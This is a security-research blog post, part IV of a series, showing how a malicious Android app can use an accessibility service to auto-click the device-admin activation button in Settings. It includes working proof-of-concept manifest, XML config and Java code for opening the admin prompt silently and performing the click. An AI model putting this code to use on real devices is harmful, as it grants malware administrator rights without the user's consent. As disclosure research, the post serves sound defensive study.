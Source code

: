 ```yaml
---
layout: posts
title:  Attacking Android Accessibility Service (AAS) - Part IV
date:   2020-05-05
categories: android
---
```


`~$ cat How_an_Android_app_could_escalate_its_privileges_Part4.txt`

This last part about Android Accessibility Service presents the simplest application, and surely the most powerful one of the four. The goal is here to make the app
an administrator of the device.

_By "administrator", I don't mean "root"_

![admin](/assets/res/android/admin.png)

The principle remains the same: the malicious app opens the Settings at a specific page, and forces the click on a widget. However, there is no need here to browse through
the settings, and it makes the attack really fast, and even easier!

### Configuration

As the holy documentation says:

>To use the Device Administration API, the app's manifest must include the following:
>* A subclass of DeviceAdminReceiver that includes the following:
>	* The BIND_DEVICE_ADMIN permission.
>	* The ability to respond to the ACTION_DEVICE_ADMIN_ENABLED intent, expressed in the manifest as an intent filter.
>* A declaration of security policies used in metadata.

I created then a class named `MyAdminDeviceBinder` extending `DeviceAdminReceiver`, and registered the `<receiver>` in the Manifest. And as usual, there is also the custom
accessibility service:

> ```xml
><?xml version="1.0" encoding="utf-8"?>
>	<manifest xmlns:android="http://schemas.android.com/apk/res/android" package="xyz.noname.spyapp">
>		<application
>		...<snipped/>...
>		<service android:name=".services.CustomAccessibilityService"
>			android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE">
>			<intent-filter>
>				<action android:name="android.accessibilityservice.AccessibilityService"/>
>			</intent-filter>
>			<meta-data android:name="android.accessibilityservice"
>				android:resource="@xml/accessibility_config"/>
>		</service>
>		<receiver android:name=".services.MyDeviceAdminReceiver"
>			android:permission="android.permission.BIND_DEVICE_ADMIN">
>			<meta-data android:name="android.app.device_admin"
>				android:resource="@xml/admin_config"/>
>			<intent-filter>
>				<action android:name="android.app.action.DEVICE_ADMIN_ENABLED"/>
>			</intent-filter>
>		</receiver>
>	</application>
></manifest>
> ```

For the file `accessibility_config`, nothing new:

> ```xml
><accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
>	android:packageNames="com.android.settings, xyz.noname.spyapp"
>	android:accessibilityEventTypes="typeWindowContentChanged"
>	android:accessibilityFeedbackType="feedbackAllMask"
>	android:notificationTimeout="100"
>	android:canRetrieveWindowContent="true"
>	android:accessibilityFlags="flagReportViewIds"/>
> ```

We still listening for the `typeWindowContentChanged` events, on Settings and the malicious app. As usual, I set `canRetrieveWindowContent` to `true`, and
added `flagReportViewIds` in order to make it easier.

In the `admin_config`, I only wrote:

> ```xml
><?xml version="1.0" encoding="utf-8"?>
><device-admin xmlns:android="http://schemas.android.com/apk/res/android">
>	<uses-policies>
>		<!--xxx-->
>	</uses-policies>
></device-admin>
> ```

### Main activity and Receiver

The `DeviceAdminReceiver` contains nothing except `onReceive`, where I only print the `action`. However, it could be very useful for an attacker, to launch to
attack as soon as the admin permission id granted:

> ```java
>public class MyDeviceAdminReceiver extends DeviceAdminReceiver {
>
>	@Override
>	public void onReceive(Context context, Intent intent) {
>		Log.e("action", intent.getAction());
>		super.onReceive(context, intent);
>	}
>}
> ```

A bunch of callback routines can be used to react depending on the action: `onEnabled`, `onDisable`, `onDisableRequested`, `onLockTaskModeEntering` etc.

In `MainActivity` it's also really simple: we check if the app is already an admin, and if it's not the case and if the Accessibility Service in On, then
the Settings are open at the right page:

![admin_perm](/assets/res/android/admin_perm.png)

> ```java
>	@Override
>	protected void onCreate(Bundle savedInstanceState) {
>		super.onCreate(savedInstanceState);
>		ComponentName componentName= new ComponentName(this, MyDeviceAdminReceiver.class);
>		DevicePolicyManager dmp = (DevicePolicyManager) getSystemService(DEVICE_POLICY_SERVICE);
>		if (dmp != null && !dmp.isAdminActive(componentName) && Util.isAccessibilityServiceOn(this)) {
>			Intent intent = new Intent(DevicePolicyManager.ACTION_ADD_DEVICE_ADMIN);
>			intent.putExtra(DevicePolicyManager.EXTRA_DEVICE_ADMIN, componentName);
>			startActivityForResult(intent, 1);
>		}
>		setContentView(R.layout.activity_main);
>	}
> ```

It's normally possible to put an extra string explaining why this status is requested by the app, but it's obviously not the goal in this case.

### The custom Accessibility Service

As the Settings opens at this specifig page, the only thing we have to do is to click on "Activate this device admin app", and to quit. First thing I did was
to get the id of this widget:

> ```java
>private static final String ACTIVATE_ADMIN = "com.android.settings:id/action_button";
> ```

and then, I used a boolean `activate` which indicates if the user has landed here because of the malicious app or not. Not need here to recursively scan the page.
I used the routine `findAccessibilityNodeInfosByViewId` which returns a list of widgets having the given id (I then assume that it's the first one).

Then, a click is performed on this widget or on its parent.


> ```java
>private boolean activate;
>
>@Override
>public void onAccessibilityEvent(AccessibilityEvent accessibilityEvent) {
>	if (BuildConfig.APPLICATION_ID.equals(accessibilityEvent.getPackageName().toString())){
>		this.activate = true;
>	}
>	else{
>		if (this.activate){
>			AccessibilityNodeInfo info = accessibilityEvent.getSource();
>			if (info != null){
>				List<AccessibilityNodeInfo> list = info.findAccessibilityNodeInfosByViewId(ACTIVATE_ADMIN);
>				if (list.size() > 0){
>					AccessibilityNodeInfo node = list.get(0);
>					if (node.isClickable()){
>						this.activate = node.performAction(AccessibilityNodeInfo.ACTION_CLICK);
>					}
>					else{
>						AccessibilityNodeInfo parent = node.getParent();
>						while (parent != null && !parent.isClickable()){
>							parent = parent.getParent();
>						}
>						if (parent != null){
>							this.activate = parent.performAction(AccessibilityNodeInfo.ACTION_CLICK);
>						}
>					}
>				}
>			}
>		}
>	}
>}
> ```

Since there are only 2 apps registered in the config file, a simple `if/else` is sufficient. As soon as the button is clicked, the `DeviceAdminReceiver.onReceive` is called
and the malicious code can be triggered.

[![video4_poc](/assets/res/android/video4.png)](https://youtu.be/2M2pIMuET00)
